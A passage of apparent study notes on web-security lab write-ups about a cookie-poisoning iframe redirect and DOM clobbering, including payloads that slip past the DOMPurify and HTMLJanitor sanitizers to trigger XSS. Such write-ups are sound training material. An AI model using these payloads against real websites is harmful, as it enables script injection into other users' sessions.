redirect already happened once
```

---

### 🔁 Step 6 — iframe Loads Again

Because src changed:

```text
iframe reloads
```

onload triggers AGAIN.

---

### 🛑 Step 7 — Browser Rechecks Condition

Now:

```javascript
window.x = 1
```

and 1 behaves like TRUE.

So:

```javascript
!1
```

becomes:

```text
false
```

Condition fails.

Redirect does NOT happen again.

Loop stops.

---

## ⚠️ Why Infinite Loop Happens Without This

Without protection:

```javascript
this.src='https://TARGET-SITE'
```

would execute every single time iframe loads.

Flow:

```text
load
↓
redirect
↓
load
↓
redirect
↓
load
↓
forever
```

Browser continuously reloads.

---

## 🌍 Real-World Analogy

Think of:

```javascript
window.x = "already done" sticker
```

Without sticker:

```text
worker repeats task forever
```

With sticker:

```text
worker checks sticker first

if already done → stop
```

---

## 🔍 Payload Breakdown

### 🌐 window

Global browser page object.

Stores:

- variables
- functions
- page state

---

### 🏴 window.x

Custom global variable.

Acts as:

- flag
- temporary memory
- execution marker

---

### ❗ !

Logical NOT operator.

Flips:

```text
true → false
false → true
```

---

### 📌 undefined

Default value for non-existing variable.

Behaves like FALSE.

---

### ✅ window.x = 1

Stores:

```text
TRUE-like value
```

marker that exploit already executed.

---

### 🔄 this.src

Changes iframe destination URL.

Causes:

- iframe reload
- second request
- exploit chain continuation

---

## 📸 Screenshot — lastViewedProduct Cookie Reflected into HTML Without Sanitization



---

## 🌐 Real-World Scenarios

This technique is common in:

- XSS exploit automation
- CSRF redirect chains
- iframe exploit staging
- OAuth abuse chains
- phishing redirect payloads
- multi-step DOM attacks
- silent browser navigation attacks

---

## 🔗 Attack Chains

### 🍪 Cookie Poisoning Chain

```text
iframe loads malicious product URL
        ↓
cookie poisoned
        ↓
onload redirects iframe
        ↓
homepage reads poisoned cookie
        ↓
XSS executes
```

---

### 🧠 Multi-Step DOM Attack

```text
stage 1 = setup
stage 2 = trigger
```

window.x prevents stage repetition.

---

## 🎯 High-Value Endpoints

Places where this logic often appears:

- login redirects
- account pages
- OAuth flows
- iframe widgets
- ad systems
- embedded dashboards
- SSO portals
- payment popups

---

## 🧠 Mental Model

```text
window.x = browser memory flag

First load:
    x does not exist
    ↓
    execute redirect
    ↓
    set x=1

Second load:
    x already exists
    ↓
    stop execution
```

---

## 🛡️ Remediation

Developers should:

- avoid unsafe iframe scripting
- validate dynamic redirects
- avoid dangerous automatic navigation
- sanitize attacker-controlled inputs
- restrict DOM manipulation

For exploit prevention:

- use CSP
- sandbox iframes
- validate origins
- avoid inline JavaScript

---

## 🔥 Final Easy Understanding

The payload uses window.x as a temporary memory flag. First time the iframe loads, x does not exist, so the redirect happens. Then x becomes 1, which prevents future redirects and stops the iframe from entering an infinite reload loop.

---

# 🧠Lab-6 DOM Clobbering via Browser Auto-Created Variables

---

## 📝 Overview

This lab demonstrates:

• DOM clobbering

• browser auto-created JavaScript variables

• HTML-to-object conversion abuse

• XSS without direct `<script>` injection


Main idea:

Attacker injects HTML
        ↓
Browser converts HTML into fake JS object
        ↓
Website trusts fake object
        ↓
Attacker controls dangerous property
        ↓
XSS executes

This is an advanced DOM attack where:

• no direct script tag is injected

• browser behavior itself becomes the vulnerability

---

## 🧭 What Is This Topic?

DOM clobbering happens when:

• attacker injects HTML

• browser automatically creates JavaScript variables from HTML IDs/names

• those fake variables overwrite real JavaScript objects


The website then accidentally trusts attacker-controlled objects.

---

## ⚠️ Core Browser Behavior

Example:

```html
<div id="test">
```

Browser may automatically create:

```js
window.test
```

This is old browser behavior for convenience.

Attackers abuse this behavior.

---

## ⚠️ Vulnerable Code

The lab JavaScript contains:

```js
let defaultAvatar =
window.defaultAvatar || {
   avatar:'/resources/images/avatarDefault.svg'
}
```

---

## 🧠 What Developer Thinks

Developer assumes:

```js
window.defaultAvatar
```

will either:

• not exist OR

• contain safe object


If it does not exist:

```js
{
 avatar:'/resources/images/avatarDefault.svg'
}
```

is used safely.

---

## ⚠️ Why This Is Dangerous

Because attacker can inject:

```html
id=defaultAvatar
```

which browser converts into:

```js
window.defaultAvatar
```

This overwrites/clobbers the original object.

---

## 🔄 Lab Walkthrough

### 📝 Step 1 — Open Blog Post

Go to any blog post page.

---

### 📝 Step 2 — Inject DOM Clobbering Payload

Post this as a comment:

```html
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```

---

## 🧠 Payload Breakdown

### ⚠️ First Anchor

```html
<a id=defaultAvatar>
```

Browser creates:

```js
window.defaultAvatar
```

---

### ⚠️ Second Anchor

```html
<a id=defaultAvatar name=avatar href="...">
```

Same ID again.

Browser groups both anchors into:

```js
DOM Collection
```

Like:

```js
defaultAvatar[0]
defaultAvatar[1]
```

---

## ⚠️ Important Trick

This attribute:

```html
name=avatar
```

creates property:

```js
defaultAvatar.avatar
```

---

## ⚠️ href Value

```html
href="cid:&quot;onerror=alert(1)//"
```

becomes attacker-controlled value.

---

## 🧠 Why cid: Is Used

Website uses:

```txt
DOMPurify
```

filter.

DOMPurify blocks many dangerous payloads.

BUT:

```txt
cid:
```

protocol is allowed

encoded quotes survive filtering

---

## ⚠️ What &quot; Means

```html
&quot;
```

means:

```txt
"
```

encoded double quote.

Browser later decodes it.

---

## ⚠️ Final Browser Interpretation

This:

```txt
cid:&quot;onerror=alert(1)//
```

becomes:

```txt
cid:"onerror=alert(1)//
```

---

### 📝 Step 3 — Browser Creates Fake JS Object

Browser internally creates something like:

```js
window.defaultAvatar.avatar =
'cid:"onerror=alert(1)//'
```

---

### 📝 Step 4 — Website Uses Poisoned Object

Website later does something conceptually like:

```js
img.src = defaultAvatar.avatar
```

After clobbering:

```js
img.src = 'cid:"onerror=alert(1)//'
```

---

### 📝 Step 5 — HTML Attribute Breakout

Browser interprets it similarly to:

```html

```

---

### 📝 Step 6 — Image Fails

Broken image source triggers:

```txt
onerror
```

---

### 📝 Step 7 — XSS Executes

Browser runs:

```js
alert(1)
```

Lab solved.

---

## ⚠️ Why Second Comment Is Needed

This is important.

---

### 📝 First Comment

Creates poisoned/clobbered object.

BUT website JS may not immediately reprocess comments.

---

### 📝 Second Comment

Triggers page reload/reprocessing.

Now website reads poisoned:

```js
window.defaultAvatar
```

and XSS executes.

---

## 🔄 Attack Flow

Inject HTML
      ↓
Browser auto-creates fake object
      ↓
Fake object overwrites real JS variable
      ↓
Website trusts poisoned object
      ↓
Attacker-controlled value inserted into image src
      ↓
Broken image triggers onerror
      ↓
XSS

---

## 🌍 Real-World Scenarios

DOM clobbering commonly appears in:

• comment systems

• markdown renderers

• WYSIWYG editors

• profile bios

• CMS systems

• rich-text forums

• blog engines


Especially when:

• script tags blocked

• HTML partially allowed

• id/name attributes allowed

---

## 🎯 High-Value Targets

Common dangerous targets:

```txt
script.src
img.src
iframe.src
form.action
dynamic URL builders
plugin loaders
analytics scripts
```

---

## ⚠️ Dangerous Patterns

Very dangerous code patterns:

```js
window.someObject || {}

window.config || defaultConfig

window.user || {}
```

because attacker may clobber:

```txt
config
user
object
avatar
settings
```

---

## 🧠 Mental Model

Attacker injects HTML IDs and names
        ↓
Browser converts them into fake JS variables/properties
        ↓
Website trusts those variables
        ↓
Attacker controls dangerous behavior

---

## 🔗 Multi-Chain Attacks

DOM clobbering can chain into:

• DOM XSS

• script injection

• malicious script loading

• redirect abuse

• CSRF chains

• account takeover

---

## 🛡️ Remediation

Developers should:

• avoid relying on `window.object || {}`

• avoid implicit global variables

• avoid trusting browser-created globals

• use strict DOM lookups

• sanitize allowed HTML carefully


Safe approach:

```js
document.getElementById()
```

instead of:

```js
automatic globals

implicit window properties
```

---

## 🎯 Final Easy Understanding

DOM clobbering tricks the browser into turning attacker HTML into fake JavaScript objects. The website accidentally trusts those fake objects and uses attacker-controlled values in dangerous places, leading to XSS.

---

# 🧠Lab-7 DOM Clobbering to Break HTMLJanitor Sanitization

---

## 📝 Overview

This lab is about DOM clobbering breaking an HTML sanitizer (`HTMLJanitor`) to bypass filtering and trigger XSS via `onfocus`.

Core idea:

Sanitizer depends on `element.attributes`
        ↓
Attacker overwrites `attributes` using DOM clobbering
        ↓
Sanitizer logic breaks
        ↓
Malicious attribute survives (`onfocus`)
        ↓
Browser triggers event → `print()`

---

## 🧭 What Is This Topic?

• DOM Clobbering

• HTMLJanitor (client-side HTML filter)

• Attribute-based sanitization bypass

• Event-driven XSS (`onfocus`)

• Exploit server forced interaction

---

# 🔄 Lab Walkthrough

---

## 📝 Step 1 — Inject Malicious Comment

Go to a blog post and submit:

```html
<form id=x tabindex=0 onfocus=print()>
  <input id=attributes>
```

---

## 🧠 Step 2 — Understand Payload Components

### ⚠️ 1. Form Element

```html
<form id=x tabindex=0 onfocus=print()>
```

• `id=x` → used for targeting (`#x`)

• `tabindex=0` → makes it focusable

• `onfocus=print()` → XSS trigger when focused

---

### ⚠️ 2. Input Element (Clobbering Trick)

```html
<input id=attributes>
```

This is the DOM clobbering vector.

It overwrites:

```js
element.attributes
```

---

# ⚠️ Normal Behavior vs Malicious Behavior

---

## 📝 Normal

```js
element.attributes
```

→ real attribute list

Example:

```txt
id
tabindex
onfocus
```

Filter loops safely.

---

## 📝 Malicious

```html
<input id=attributes>
```

Now:

```js
element.attributes → <input element>
```

So:

```js
attributes.length = undefined
```

---

## ⚠️ What Breaks in Filter

HTMLJanitor does:

```js
for(i=0; i < element.attributes.length; i++)
```

But now:

```js
length = undefined
```

So loop fails immediately.

👉 Sanitizer stops working correctly.

---

## ⚠️ Result of Failure

Filter does NOT remove:

```html
onfocus=print()
```

---

## 📝 Step 3 — Exploit Server Payload

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/post?postId=3"
onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

---

## 🧠 What This Does

### ⚠️ 1. Loads blog page

iframe loads victim page

---

### ⚠️ 2. Delay execution

```js
setTimeout(..., 500)
```

Purpose:

• wait for comment to load

• ensure DOM is ready

---

### ⚠️ 3. Adds fragment #x

```txt
#x
```

This tells browser:

👉 focus element with `id="x"`

---

## 📝 Step 4 — Browser Behavior

Browser finds:

```html
<form id=x tabindex=0 onfocus=print()>
```

Then automatically focuses it.

---

## 📝 Step 5 — XSS Trigger

Focus event runs:

```js
print()
```

---

# 🔗 Full Attack Chain

Inject form + input(id=attributes)
        ↓
HTMLJanitor tries sanitization
        ↓
attributes gets clobbered
        ↓
filter loop breaks
        ↓
onfocus survives filtering
        ↓
iframe loads blog page
        ↓
#x triggers focus
        ↓
onfocus executes
        ↓
print() runs

---

# 🧠 Key Concepts

---

## ⚠️ 1. What is DOM Clobbering here?

Replacing real `attributes` object with a fake DOM node

---

## ⚠️ 2. Why input id=attributes?

Because sanitizer depends on:

```js
element.attributes
```

We overwrite it to break logic.

---

## ⚠️ 3. Why tabindex=0?

Makes element:

```txt
focusable via JavaScript / fragment navigation
```

---

## ⚠️ 4. Why #x?

Triggers browser focus behavior:

```txt
URL fragment → focus element with id=x
```

---

## ⚠️ 5. Why setTimeout?

Ensures:

• comment is loaded first

• then trigger focus safely

---

# 🌍 Real-Life Analogy

Security guard checks checklist before letting people in
        ↓
Attacker replaces checklist with broken paper
        ↓
Guard can’t verify anything
        ↓
Dangerous person passes through

---

# 🎯 Final Mental Model

DOM clobbering breaks sanitizer’s dependency on `attributes`, causing the filter to stop working and allowing event-based XSS via focus triggering.
